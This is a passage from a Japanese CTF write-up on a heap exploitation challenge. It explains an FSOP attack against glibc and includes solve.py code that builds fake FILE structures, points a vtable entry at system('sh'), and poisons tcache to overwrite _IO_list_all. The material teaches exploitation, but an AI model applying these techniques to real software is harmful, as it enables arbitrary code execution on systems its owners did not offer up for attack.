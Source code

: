 counts[7]を0にしているのは、そうしないと次にcreateを読んだ際にmallocはtcache(0x90)からchunkを返そうとし、(上ではcountsを書き変えただけで実際にfree chunkがあるわけではないので)abortで落ちるから。unsorted binに入っているCを取り返しているのはFSOPを行う際に連続したメモリ領域が欲しかったから。

## FSOP
heap baseもlibc baseも分かったので、PC Controlを奪取できれば終わり。今回の問題はFull RELROかつPIE enabledなのでGot Overwriteや、return addressの書き変えは使えない。そこでFSOPを使うことにした。(もっといい方法があるかも)FSOPについてはこの記事[^1]で真面目に解説したので説明は割愛する。
まず以下のようにして偽の_IO_FILE_plus構造体、_IO_wide_data構造体、 _IO_jump_t構造体を作る。
```python: solve.py
# 3: FSOP
create(0) # A
create(1) # B
create(2) # C
create(3) # D
create(4) # E

chunkA = heap_base + 0x560
wide_data = wide_vtable = chunkA + 0xf0

update(0, b'  sh\0\n')
update(
    1, 
    b'\0' * 0x10 \
    + pack(wide_data) \
    + b'\0' * 0x18 \
    + p32(1) \
    + b'\0' * 0x14 \
    + pack(l.sym['_IO_wfile_jumps']) \
    + b'\0' * 0x20 \
    + pack(1) \
    + b'\0' * 0x8
)
update(
    2, 
    b'\0' * 0x28 \
    + pack(l.sym['system']) # _do_allocate \
    + b'\n'
)
update(
    3,
    b'\0' * 0x10 \
    + pack(wide_vtable)
)
```
後は以下のようにして、_IO_list_allに上で用意した偽の_IO_FILE_plus構造体のアドレスを書き込めばよい。
```python: solve.py
# tcahce(0x90): D -> C
delete(2)
delete(3)

# tcache(0x90): D -> &_IO_list_all
chunkD = chunkA + 0x90 * 3
update(-1, pack(((chunkD + 0x10)>>12) ^ l.sym['_IO_list_all']) + b'\n')

create(3)
create(2)
update(2, pack(chunkA + 0x10) + b'\n')
```
実際、最初のupdateを実行するとheapは以下のようになり、tcacheに&_IO_list_allが入る。


[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34